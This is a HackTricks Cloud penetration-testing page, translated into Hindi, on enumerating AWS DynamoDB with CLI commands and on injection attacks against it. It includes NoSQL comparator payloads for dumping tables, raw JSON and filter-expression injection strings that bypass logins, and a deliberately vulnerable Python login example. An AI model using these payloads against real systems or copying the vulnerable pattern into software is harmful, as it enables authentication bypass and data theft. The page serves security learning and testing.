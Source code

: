 # AWS - DynamoDB Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## DynamoDB

### Basic Information

Amazon DynamoDB को AWS द्वारा **पूर्ण रूप से प्रबंधित, सर्वर रहित, की-मान NoSQL डेटाबेस** के रूप में प्रस्तुत किया गया है, जो उच्च प्रदर्शन वाले अनुप्रयोगों को उनके आकार की परवाह किए बिना शक्ति प्रदान करने के लिए तैयार किया गया है। यह सेवा मजबूत सुविधाओं की गारंटी देती है, जिसमें अंतर्निहित सुरक्षा उपाय, निरंतर बैकअप, कई क्षेत्रों में स्वचालित प्रतिकृति, एकीकृत इन-मेमोरी कैशिंग, और सुविधाजनक डेटा निर्यात उपयोगिताएँ शामिल हैं।

DynamoDB के संदर्भ में, पारंपरिक डेटाबेस स्थापित करने के बजाय, **तालिकाएँ बनाई जाती हैं**। प्रत्येक तालिका को **तालिका की प्राथमिक कुंजी** के एक अभिन्न घटक के रूप में **पार्टीशन कुंजी** का निर्दिष्ट करना अनिवार्य है। यह पार्टीशन कुंजी, जो मूल रूप से एक **हैश मान** है, वस्तुओं की पुनर्प्राप्ति और विभिन्न होस्टों के बीच डेटा के वितरण में महत्वपूर्ण भूमिका निभाती है। यह वितरण डेटाबेस की स्केलेबिलिटी और उपलब्धता बनाए रखने के लिए महत्वपूर्ण है। इसके अतिरिक्त, डेटा संगठन को और अधिक परिष्कृत करने के लिए **सॉर्ट कुंजी** को शामिल करने का विकल्प है।

### Encryption

डिफ़ॉल्ट रूप से, DynamoDB एक KMS कुंजी का उपयोग करता है जो **Amazon DynamoDB की है,** न कि AWS द्वारा प्रबंधित कुंजी जो कम से कम आपके खाते की है।

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### Backups & Export to S3

**तालिका बैकअप** के निर्माण को **अनुसूचित** करना या **मांग पर** बनाना संभव है। इसके अलावा, एक तालिका के लिए **पॉइंट-इन-टाइम रिकवरी (PITR)** सक्षम करना भी संभव है। पॉइंट-इन-टाइम रिकवरी आपके DynamoDB डेटा के निरंतर **बैकअप** प्रदान करती है **35 दिनों** के लिए ताकि आप आकस्मिक लेखन या हटाने के संचालन से सुरक्षा कर सकें।

**तालिका के डेटा को S3 में निर्यात करना** भी संभव है, लेकिन तालिका को **PITR सक्षम** होना चाहिए।

### GUI

स्थानीय Dynamo सेवाओं के लिए एक GUI है जैसे [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [dynalite](https://github.com/mhart/dynalite), [localstack](https://github.com/localstack/localstack), आदि, जो उपयोगी हो सकते हैं: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### Enumeration
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### अनधिकृत पहुँच

{% content-ref url="../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md" %}
[aws-dynamodb-unauthenticated-access.md](../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md)
{% endcontent-ref %}

### प्रिवेस्क

{% content-ref url="../aws-privilege-escalation/aws-dynamodb-privesc.md" %}
[aws-dynamodb-privesc.md](../aws-privilege-escalation/aws-dynamodb-privesc.md)
{% endcontent-ref %}

### पोस्ट एक्सप्लोइटेशन

{% content-ref url="../aws-post-exploitation/aws-dynamodb-post-exploitation.md" %}
[aws-dynamodb-post-exploitation.md](../aws-post-exploitation/aws-dynamodb-post-exploitation.md)
{% endcontent-ref %}

### स्थिरता

{% content-ref url="../aws-persistence/aws-dynamodb-persistence.md" %}
[aws-dynamodb-persistence.md](../aws-persistence/aws-dynamodb-persistence.md)
{% endcontent-ref %}

## DynamoDB इंजेक्शन

### SQL इंजेक्शन

DynamoDB डेटा तक पहुँचने के लिए **SQL सिंटैक्स** के साथ तरीके हैं, इसलिए, सामान्य **SQL इंजेक्शन भी संभव हैं**।

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

### NoSQL इंजेक्शन

DynamoDB में विभिन्न **शर्तें** डेटा प्राप्त करने के लिए उपयोग की जा सकती हैं, जैसे कि एक सामान्य NoSQL इंजेक्शन में यदि डेटा प्राप्त करने के लिए **अधिक शर्तों को जोड़ना संभव है** तो आप छिपा हुआ डेटा प्राप्त कर सकते हैं (या पूरी तालिका को डंप कर सकते हैं)।\
आप यहाँ DynamoDB द्वारा समर्थित शर्तें पा सकते हैं: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html)

ध्यान दें कि **विभिन्न शर्तें** समर्थित हैं यदि डेटा **`query`** के माध्यम से या **`scan`** के माध्यम से पहुँचाया जा रहा है।

{% hint style="info" %}
वास्तव में, **Query** क्रियाओं को काम करने के लिए **प्राथमिक** कुंजी में **शर्त "EQ" (बराबर)** निर्दिष्ट करने की आवश्यकता होती है, जिससे यह **NoSQL इंजेक्शन के लिए कम संवेदनशील** हो जाता है (और ऑपरेशन को बहुत सीमित भी बनाता है)।
{% endhint %}

यदि आप **तुलना** को बदल सकते हैं या नई जोड़ सकते हैं, तो आप अधिक डेटा प्राप्त कर सकते हैं।
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

### कच्चा Json इंजेक्शन

{% hint style="danger" %}
**यह भेद्यता dynamodb Scan Filter पर आधारित है जो अब अप्रचलित है!**
{% endhint %}

**DynamoDB** **Json** ऑब्जेक्ट्स को DB के अंदर डेटा खोजने के लिए स्वीकार करता है। यदि आप पाते हैं कि आप खोज के लिए भेजे गए json ऑब्जेक्ट में लिख सकते हैं, तो आप DB का डंप बना सकते हैं, सभी सामग्री।

उदाहरण के लिए, एक अनुरोध में इंजेक्ट करना जैसे:

{% code overflow="wrap" %}
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
{% endcode %}

एक हमलावर कुछ इस तरह इंजेक्ट कर सकता है:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

"EQ" स्थिति को ठीक करें जो ID 1000 के लिए खोज कर रहा है और फिर सभी डेटा के लिए देख रहा है जिनका Id स्ट्रिंग 0 से बड़ा है, जो कि सभी है।

एक **कमजोर उदाहरण लॉगिन का** हो सकता है:
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
यह निम्नलिखित के प्रति संवेदनशील होगा:
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

कुछ SDKs एक स्ट्रिंग का उपयोग करने की अनुमति देते हैं जो प्रदर्शन किए जाने वाले फ़िल्टरिंग को इंगित करती है जैसे: 

{% code overflow="wrap" %}
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
{% endcode %}

आपको यह जानना आवश्यक है कि DynamoDB में **फिल्टर एक्सप्रेशंस** में **वस्तुओं** को स्कैन करते समय एक विशेषता **मान** को **बदलने** के लिए, टोकन को **`:`** वर्ण से **शुरू** होना चाहिए। ऐसे टोकन को वास्तविक **विशेषता मान को रनटाइम** में **बदला** जाएगा।

इसलिए, पिछले जैसे एक लॉगिन को इस तरह से बायपास किया जा सकता है:
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
